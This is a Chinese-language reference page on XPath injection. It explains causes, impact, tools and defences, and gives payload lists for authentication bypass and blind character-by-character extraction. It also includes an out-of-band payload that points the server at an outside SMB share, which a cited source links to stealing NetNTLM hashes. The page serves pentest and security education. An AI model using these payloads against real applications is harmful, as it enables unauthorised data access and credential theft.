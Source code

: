 # XPath 注入

> XPath 注入是一种攻击技术，利用应用程序从用户提供的输入构造 XPath（XML 路径语言）查询来查询或导航 XML 文档的漏洞。

## XPath 注入原理

XPath 注入是一种针对使用 XPath 查询语言的应用程序的攻击技术。当应用程序使用未经验证的用户输入来构造 XPath 查询时，攻击者可以注入恶意 XPath 代码，从而操纵查询逻辑，导致未授权数据访问或其他恶意操作。

### 漏洞成因

1. **未经验证的用户输入**：应用程序直接将用户输入拼接到 XPath 查询中
2. **缺乏输入验证**：未对用户输入进行适当的验证和过滤
3. **错误处理不当**：详细的错误信息可能泄露敏感信息

### 攻击面

- **认证绕过**：修改查询条件绕过身份验证
- **信息泄露**：提取敏感数据
- **权限提升**：访问未授权的数据
- **拒绝服务**：构造复杂的 XPath 查询消耗服务器资源

### 影响

- 未授权访问敏感数据
- 认证绕过
- 服务器端请求伪造 (SSRF)
- 拒绝服务 (DoS)

## 目录

* [工具](#工具)
* [方法学](#方法学)
    * [盲注利用](#盲注利用)
    * [带外利用](#带外利用)
* [实验](#实验)
* [防御措施](#防御措施)
* [参考资料](#参考资料)

## 工具

* [orf/xcat](https://github.com/orf/xcat) - 自动化 XPath 注入攻击以检索文档
* [feakk/xxxpwn](https://github.com/feakk/xxxpwn) - 高级 XPath 注入工具
* [aayla-secura/xxxpwn_smart](https://github.com/aayla-secura/xxxpwn_smart) - 使用预测文本的 xxxpwn 分支
* [micsoftvn/xpath-blind-explorer](https://github.com/micsoftvn/xpath-blind-explorer) - XPath 盲注利用工具
* [Harshal35/XmlChor](https://github.com/Harshal35/XMLCHOR) - XPath 注入利用工具

## 方法学

与 SQL 注入类似，您需要正确终止查询：

```ps1
string(//user[name/text()='" +vuln_var1+ "' and password/text()='" +vuln_var1+ "']/account/text())
```

```sql
' or '1'='1
' or ''='
x' or 1=1 or 'x'='y
/
//
//*
*/*
@*
count(/child::node())
x' or name()='username' or 'x'='y
' and count(/*)=1 and '1'='1
' and count(/@*)=1 and '1'='1
' and count(/comment())=1 and '1'='1
')] | //user/*[contains(*,'
') and contains(../password,'c
') and starts-with(../password,'c
```

### 盲注利用

1. 字符串长度

    ```sql
    and string-length(account)=SIZE_INT
    ```

2. 使用 `substring` 访问字符，并使用 `codepoints-to-string` 函数验证其值

    ```sql
    substring(//user[userid=5]/username,2,1)=CHAR_HERE
    substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
    ```

### 带外利用

```powershell
http://example.com/?title=Foundation&type=*&rent_days=* and doc('//10.10.10.10/SHARE')
```

## 实验

* [Root Me - XPath 注入 - 认证](https://www.root-me.org/en/Challenges/Web-Server/XPath-injection-Authentication)
* [Root Me - XPath 注入 - 字符串](https://www.root-me.org/en/Challenges/Web-Server/XPath-injection-String)
* [Root Me - XPath 注入 - 盲注](https://www.root-me.org/en/Challenges/Web-Server/XPath-injection-Blind)

## 防御措施

### 输入验证
- 对所有用户输入进行严格验证
- 使用白名单验证允许的字符和格式
- 拒绝包含 XPath 特殊字符的输入

### 参数化查询
- 使用参数化 XPath 查询
- 使用预编译的 XPath 表达式
- 避免字符串拼接构造查询

### 最小权限原则
- 限制数据库用户权限
- 只授予必要的最低权限
- 使用只读账户进行查询

### 安全配置
- 禁用详细的错误信息
- 配置 Web 服务器不返回详细的错误信息
- 记录和监控可疑活动

### 安全开发实践
- 使用 ORM 框架而非原始 XPath 查询
- 实施内容安全策略 (CSP)
- 定期进行安全审计和渗透测试

## 参考资料

* [窃取 NetNTLM 哈希值的关键位置 - Osanda Malith Jayathissa - 2017年3月24日](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)
* [XPath 注入 - OWASP - 2015年1月21日](https://www.owasp.org/index.php/Testing_for_XPath_Injection_(OTG-INPVAL-010))
